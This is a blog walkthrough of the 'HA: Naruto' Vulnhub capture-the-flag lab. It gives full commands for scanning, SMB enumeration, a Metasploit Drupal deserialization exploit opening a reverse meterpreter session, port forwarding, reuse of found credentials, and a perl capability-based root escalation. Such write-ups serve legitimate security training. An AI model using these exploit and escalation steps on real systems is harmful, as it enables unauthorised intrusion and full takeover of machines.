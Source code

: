 ```yaml
---
title: 'HA: Naruto Vulnhub Walkthrough'
date: 2019-10-24T16:25:00+01:00
draft: false
---
```


This is our Walkthrough for “HA: Naruto” and this CTF is designed by Hacking Articles Team, hope you will enjoy this.

Book your tickets to The Konohagakure, and train under Master Jiraiya,  Hokage Uzumaki, and Tsunade.  Use your hacking skills to stop Orrochimaru and Rescue Sasuke.  Hack this boot to root and get  the  title  of  “The Number  One  Hyperactive,  Knucklehead  Ninja”

Level:

You can download this lab from here.

**Let’s Begin!!**

### **Penetration Testing Methodologies**

**Scanning Network**

*   netdiscover
*   Nmap

**Enumeration**

*   Browsing HTTP Service
*   Samba Client (Smb Client)

**Exploiting**

*   Drupal-Metasploit

**Privilege Escalation**

*   Capabilities

### Network Scanning

Firsts of all we try to identify our target and for this use the following command:

```
netdiscover
```

Now we will run an aggressive port scan using Nmap to gain the information about the open ports and the services running on the target machine.

```
nmap -A 192.168.0.4
```

With the help of the scan, we now know that port number 80,22,139 and 445 are open with Apache, SSH and Smb service running.

![](https://i0.wp.com/1.bp.blogspot.com/-rEw0CmL3etY/XbG_ONU5FqI/AAAAAAAAhGQ/_n7cGl2R4Fwiw_E74o9LoZrBvc6edzX4gCLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

### Enumeration

Further, we started enumeration against the target machine and therefore we navigated to a web browser for exploring HTTP service. And we got a page of Naruto as shown below: –

![](https://i0.wp.com/1.bp.blogspot.com/-gDcc_J4B_ms/XbG_OMDdtOI/AAAAAAAAhGU/HJHM2_kN3ygbdlxR4ptcpeQWvRxcWxBFwCLcBGAsYHQ/s1600/2.png?w=687&ssl=1)

Smbclient

Smbclient is a customer that can ‘converse with’ an SMB server. It offers an interface like that of the FTP program. It can perform activities like getting records from the server to the nearby machine, putting documents from the neighborhood machine to the server, recovering catalog data from the server.

We used the following command to view files in smbclient.

```
smbclient -L \\\\192.168.0.4
```

![](https://i0.wp.com/1.bp.blogspot.com/-vwRioot6jus/XbG_OFKUnlI/AAAAAAAAhGM/6Az893aiJnwEj2UI9x49GYEveN7pNIkYwCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

As we can observe with the help of smbclient we are able to view the shared folder and files of the victim’s machine. Moreover, we can use smbclient for sharing a file in the network. Therefore, we found a text file by name of uzumaki.txt which we downloaded into our machine by using the following command.

```
smbclient //192.168.0.4/Naruto
```

Then we used the cat command to open the text file and got a hint “Gara” as we saw that word is in double-quotes in the text file.

![](https://i2.wp.com/1.bp.blogspot.com/-zOf-I7BXyWU/XbG_O18bM7I/AAAAAAAAhGY/pRYPPMoQOoAHJcOIzbnsxZa7AUlHWXnZQCLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

We tried this hint and opened it on the browser page where we got a Welcome page.

![](https://i2.wp.com/1.bp.blogspot.com/-spTdH5rT0U0/XbG_Pb7i9_I/AAAAAAAAhGc/j9Rvf6WAf-Y_HqwZWWcyVaqiJYVwZ1qvQCLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

### Exploitation

Now we will use our old friend Metasploit to exploit the Drupal Page we found earlier.

```
msf5 > use exploit/unix/webapp/drupal\_restws\_unserialize  
msf5 exploit (unix/webapp/ drupal\_restws\_unserialize) > set rhosts 192.168.0.4  
msf5 exploit (unix/webapp/ drupal\_restws\_unserialize) > set targeturi /gara  
msf5 exploit (unix/webapp/ drupal\_restws\_unserialize) > set lhost 192.168.0.5  
msf5 exploit (unix/webapp/ drupal\_restws\_unserialize) > exploit
```

Booom!! Our favourite meterpreter session is all here, let’s go for Post enumeration.

After getting into the meterpreter session we used the “shell” command to get a shell on the target system. This came back to be an improper shell.

Now we used our python one-liner to invoke a proper shell on the target machine. After getting the shell we saw that the shell we got is of user “www-data”.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We will go for the post enumeration using the following command which shows us all the connections with their ports.

```
netstat -antp
```

![](https://i1.wp.com/1.bp.blogspot.com/-C7IFXXIY5C0/XbG_PTdXDjI/AAAAAAAAhGg/zaA85uzjp4IE3Ob6hEHdGs1MHcnEM4IygCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

If we check our local network static for TCP and UDP connections, we will see that there’s something running 8080 and even nmap doesn’t display anything for this. With the aid of the meterpreter, we have forwarded service port 8080 to our local host:8080.

```
portfwd add -l 8080 -p 8080 -r 127.0.0.1
```

![](https://i2.wp.com/1.bp.blogspot.com/-lx61jKktnWg/XbG_PgrMZDI/AAAAAAAAhGk/krk_5iCt_vsNgC2etwCBsXCvUVr3w05kACLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

Once we have forwarded the service over to our local machine then we can explore it the web browser as we have done here.

This will provide us with the following credentials:

```
User: yashika  
Password: raj@123
```

### Privilege Escalation

Now we got to do is run su command which will give all root permissions to that user and therefore we successfully logged in using the following credentials:

```
su yashika  
raj@123
```

![](https://i2.wp.com/1.bp.blogspot.com/-LUCcWFNfu0c/XbG_P49neyI/AAAAAAAAhGo/sMZTi45rA9MGC-op8H4FMPucAzwLTdZtQCLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

In Linux, files can be provided with a capability to access specific files majorly critical files with specific permissions only; like a script file can be provided with the capability to read ssh configuration files or /etc/shadow file which can be done using getcap  so we will use the following command to find out the capabilities of the user and whether those capabilities are enabled or not:

```
getcap -r / 2>/dev/null
``````
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
``````
id  
cd /root  
ls  
cat final.txt
```

![](https://i1.wp.com/1.bp.blogspot.com/--kfMzHHlN9U/XbG_QcXcqyI/AAAAAAAAhGs/yTgAAqXMkQAeKESLIBzvn0zjFRnVF9apQCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

And so, we found our Hero: NARUTO (“The Number One Hyperactive, Knucklehead Ninja”)

**Author: Rishabh Kant** is a Penetration tester, Certified Ethical Hacker and researcher Contact [**here**](https://www.linkedin.com/in/rishabh-kant-46a06814b/)

The post [HA: Naruto Vulnhub Walkthrough](https://www.hackingarticles.in/ha-naruto-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/367xBj1